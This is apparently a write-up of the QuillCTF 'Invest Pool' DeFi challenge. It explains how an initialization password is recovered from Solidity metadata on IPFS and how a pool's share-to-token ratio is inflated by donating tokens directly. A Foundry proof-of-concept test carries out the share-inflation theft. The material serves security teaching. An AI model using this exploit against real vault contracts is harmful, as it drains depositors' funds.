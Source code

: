 ```yaml
---
title: QuillCTF - Invest Pool
description: 2023 | Medium | DeFi Security
tags:
    - smart contract
    - metadata
    - ipfs
---
```


## Objective of CTF

> Your objective is to have a greater token balance than your initial balance.

[QuillCTF Challenges - Invest Pool](https://quillctf.super.site/challenges/quillctf-challenges/invest-pool)

## Vulnerability Description

- We need to set `initialized` to true first, in order to use `deposit()` and `withdrawAll()`
    - The password can be obtained from Solidity Metadata (got hint from Discord)
    - I used [playground.sourcify.dev](https://playground.sourcify.dev/) and got the password from https://ipfs.io/ipfs/QmU3YCRfRZ1bxDNnxB4LVNCUWLs26wVaqPoQSQ6RH2u86V (The metadata hash is base58 encoded) :D
- `tokenToShares()` and `sharesToToken()` are calculated using the current token balance of the pool, and we can transfer tokens to the pool without calling `deposit()`. Therefore, we can manipulate the ratio of share to token

## Attack Steps

- `initialize()` with the password from the metadata
- The hacker deposits 1 token, then transfers 1e18 tokens to the pool directly. The current ratio of share to the token is 1: 1e18 + 1
- The user deposits 1000e18 tokens. Because of rounding down, the user can only receive 999 shares. Now the pool has 1000 shares and 1001e18 + 1 token. The current ratio of share to the token is about 1: 1001e15
- The hacker withdraws

## Proof of Concept

```js
// SPDX-License-Identifier: MIT
pragma solidity 0.8.7;

import "forge-std/Test.sol";
import "../src/poolToken.sol";
import "../src/investPool.sol";

contract Hack is Test {
    PoolToken token;
    InvestPool pool;
    address user = vm.addr(1);
    address hacker = vm.addr(2);

    function setUp() external {
        token = new PoolToken();
        pool = new InvestPool(address(token));

        token.mint(2000e18);
        token.transfer(user, 1000e18);
        token.transfer(hacker, 1000e18);

        vm.prank(user);
        token.approve(address(pool), type(uint).max);

        vm.prank(hacker);
        token.approve(address(pool), type(uint).max);
    }

    function userDeposit(uint amount) public {
        vm.prank(user);
        pool.deposit(amount);
        vm.stopPrank();
    }

    function test_hack() public {
        uint hackerBalanceBeforeHack = token.balanceOf(hacker);
        vm.startPrank(hacker);

        // solution
        pool.initialize("j5kvj49djym590dcjbm7034uv09jih094gjcmjg90cjm58bnginxxx");
        pool.deposit(1);
        token.transfer(address(pool), 1e18);

        vm.stopPrank();
        userDeposit(1000e18);

        vm.prank(hacker);
        pool.withdrawAll();

        vm.stopPrank();
        assertGt(token.balanceOf(hacker), hackerBalanceBeforeHack);
    }
}
```